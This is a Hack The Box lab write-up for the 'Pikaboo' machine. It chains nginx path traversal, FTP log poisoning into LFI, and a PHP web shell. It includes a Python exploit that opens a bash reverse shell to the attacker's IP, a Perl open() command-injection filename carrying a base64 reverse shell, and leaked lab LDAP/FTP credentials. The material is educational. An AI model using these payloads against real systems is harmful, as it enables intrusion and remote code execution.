

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.249 pikaboo.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 17:e1:13:fe:66:6d:26:b6:90:68:d0:30:54:2e:e2:9f (RSA)
|   256 92:86:54:f7:cc:5a:1a:15:fe:c6:09:cc:e5:7c:0d:c3 (ECDSA)
|_  256 f4:cd:6f:3b:19:9c:cf:33:c6:6d:a5:13:6a:61:01:42 (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Pikaboo
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

web server home page have `/admin`



# Foothold

From web server's DIRECTORY TRAVERSAL to LFI to RCE.

## URL parser logic(directory traversal) in nginx

`/admin` uses http basic authentication but the error looks interesting



nginx server is running reverse proxy to local apache server.

* A good blog on Nginx misconfigurations issues: https://blog.detectify.com/2020/11/10/common-nginx-misconfigurations/

There is a url parser logic bug in misconfigured nignx config file.



* This bug also covered in the [Hackthebox: seal](https://github.com/x00tex/hackTheBox/blob/main/Boxes/linux/Retired/seal/README.md#server-url-parser-logic)

Orange Tsai presentation

* https://www.youtube.com/watch?v=CIhHpkybYsY
* https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf

gobuster found something interesting
```bash
❯ gobuster dir -u http://10.10.10.249/admin../ -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -t 100

# ... [snip] ...

/admin                (Status: 401) [Size: 456]
/javascript           (Status: 301) [Size: 314] [--> http://127.0.0.1:81/javascript/]
/server-status        (Status: 200) [Size: 4339]
```

`/javascript` return 403 Forbidden

we have access to `/server-status`, this will give us some interesting insight information



Found a new directory form `/server-status`
```bash
/admin_staging
```


There are some pages in this directory and application loading them from a parameter
```bash
http://10.10.10.249/admin../admin_staging/index.php?page=user.php
```



## lfi

This parameter could lead to lfi vulnerability.

on first glance it looks like that there is no lfi vulnerability but running multiple lfi fuzzing list from seclists only get these 4 files



Looks file application can't escape `/var` directory.

### lfi to RCE via ftp log

one file that could help us to get reverse shell is `/var/log/vsftpd.log`

From nmap scan, ftp service is listening on port 21

FTP server logs are stored in `/var/log/vsftpd.log`. If you have a LFI and can access a exposed vsftpd server, you could try to login **setting the PHP payload in the username and then access the logs using the LFI.**

use php code as username
```bash
'<?php phpinfo(); ?>'
```



add php web shell in ftp log file and execute it with lfi.
```bash
'<?php system($_GET['c']); ?>'
```

request parameter `c` and send url encoded bash reverse shell with it.



Python script to automate the exploit
```py
import ftplib
import requests as r

lhost = '10.10.14.42' #changeme
lport = '4141' #changeme
# payload = """'<?php system($_GET['c']); ?>'"""
payload = f"""'<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/{lhost}/{lport} 0>&1'"); ?>'"""
server = ftplib.FTP()
try:
    server.connect('10.10.10.249', 21)
    server.login(payload, '')
except ftplib.all_errors as e:
    print(e)
except KeyboardInterrupt as e:
    exit('KeyboardInterrupt')

lfi_url = f'http://10.10.10.249/admin../admin_staging/index.php?page=/var/log/vsftpd.log'

try:
    rspn = r.get(lfi_url, timeout=10)
    # print(rspn.text)
except r.exceptions.Timeout:
    exit('Request timeout')
except r.exceptions.RequestException as e:
    exit(e)
except KeyboardInterrupt:
    exit('KeyboardInterrupt')
```



# Privesc

From linpeas script, found some interesting information

There is a crontab running every minute
```bash
* * * * * root /usr/local/bin/csvupdate_cron
```

ldap database server running in localhost
```bash
State     Recv-Q    Send-Q       Local Address:Port       Peer Address:Port
LISTEN    0         128              127.0.0.1:389             0.0.0.0:*
```

And ldap server password from PokeAPI config `/opt/pokeapi/config/setting.py`
```bash
"ldap": {
        "ENGINE": "ldapdb.backends.ldap",
        "NAME": "ldap:///",
        "USER": "cn=binduser,ou=users,dc=pikaboo,dc=htb",
        "PASSWORD": "J~42%W?PFHl]g",
    },
```

## perl command injection

Crontab is running a bash script which executing `/usr/local/bin/csvupdate` in ftp directory every minute as root



And `/usr/local/bin/csvupdate` is a perl script.
```bash
(remote) www-data@pikaboo.htb:/var/www$ file /usr/local/bin/csvupdate
/usr/local/bin/csvupdate: Perl script text executable
```

Script banner say that this script is part of the PokeAPI and taking `.csv` files from ftp home directory.



This script is using `open()` function to read files from ftp directory
```perl
# ... [snip] ...
my $fname = "${csv_dir}/${type}.csv";
open(my $fh, ">>", $fname) or die "Unable to open CSV target file.\n";
# ... [snip] ...
```

And there is a command injection bug in the perl's `open()` function

* From this research paper: https://research.cs.wisc.edu/mist/SoftwareSecurityCourse/Chapters/3_8_2-Command-Injections.pdf
* Talk "Netanel Rubin: The Perl Jam 2": https://www.youtube.com/watch?v=RPvORV2Amic

    Even if you do not intend to execute a command line in a shell it can happen as a side effect of using what looks like an innocuous library. For example, consider the Perl open function: `open(F, $filename)`

    **Depending on the syntax of the string ​`$filename​` this can open files in various modes, start programs, run commands, or duplicate file descriptors. For example, if ​`$filename​` is "​`rm -rf /|​`", it will execute the rm command in a shell and delete the file system root (if privileges allow).** 

So, if we use a command as filename and save it in the ftp directory, That `/usr/local/bin/csvupdate` script could execute that command.

Second Thing is that, if we need ftp creds for accessing the server so do the PokeAPI and it's config file only contains ldap database creds.

We know the ldap creds from `/opt/pokeapi/config/setting.py`

Got commnad for extract data from [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-ldap#manual-1)
```bash
ldapsearch -x -h <IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TDL>"
```

Get data from ftp domain
```bash
ldapsearch -x -h 127.0.0.1 -D 'cn=binduser,ou=users,dc=pikaboo,dc=htb' -w 'J~42%W?PFHl]g' -b 'dc=ftp,dc=pikaboo,dc=htb'
```




ftp user creds: `pwnmeow:_G0tT4_C4tcH_'3m_4lL!_`

Create a file with reverse shell as it's name in the local directory.

```bash
❯ echo 'bash  -i  >&  /dev/tcp/10.10.14.44/4141  0>&1  ' | base64 -w 0
YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC40NC80MTQxICAwPiYxICAK
❯ touch -- '|echo YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC40NC80MTQxICAwPiYxICAK|base64 -d|bash;.csv'
❯ ls
'|echo YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC40NC80MTQxICAwPiYxICAK|base64 -d|bash;.csv'
```

Use `mput *` to upload file. User "pwnmeow" don't have permission to write in ftp root directory but there are bunch of sub directory where we can write.

after uploading file run netcat listener.


